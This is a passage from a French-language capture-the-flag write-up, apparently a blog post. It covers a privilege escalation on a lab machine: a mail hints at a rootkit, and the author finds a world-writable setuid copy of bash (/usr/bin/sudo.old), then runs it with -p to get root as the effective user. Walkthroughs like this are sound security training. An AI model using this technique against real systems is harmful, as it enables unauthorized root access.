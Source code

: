 I read your mails
-----------------

Il y a un autre chemin vers root, plus intéressant :  

```plain
cebu@rosee:~$ cat /var/spool/mail/cebu
From: CEO <ceo@localhost>
To: Cebu <cebu@localhost>
Subject: Rootkit attack + Data breach

Hey Cebu . Since the hosting platform where our website is hosted has been hacked and a rootkit has been installed in our server .
Fortunately , I removed it but can you verify if that rootkit which spawns a shell  hasn't corrupted or backdoored any file or binary ??
And if nobody can't spawn  a root shell easily ?

Greetings .
```

Il y a en effet un binaire setuid :  

```plain
[+] World-writable SUID files owned by root:
-rwsrwxrwx 1 root root 1113504 Aug  9 15:26 /usr/bin/sudo.old
```

Comme vu sur un autre CTF toute tentative de modifier un binaire avec ce flag va retirer son bit setuid (pas bête les penguins)...  

Ce binaire ne semble pas donner de shell root... à première vue :  

```plain
www-data@rosee:/var/www/admin/blog/templates/protostar$ sudo.old
sudo.old-4.4$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

C'est simplement parce que le binaire est une copie de bash et que ce programme droppe par défaut ses privilèges. Il suffit alors de l'appeler avec l'option -p :  

```plain
www-data@rosee:/var/www/admin/blog/templates/protostar$ sudo.old -p
sudo.old-4.4# id
uid=33(www-data) gid=33(www-data) euid=0(root) groups=33(www-data)
```

Effective UID is effective !

*Published November 17 2020 at 14:29*

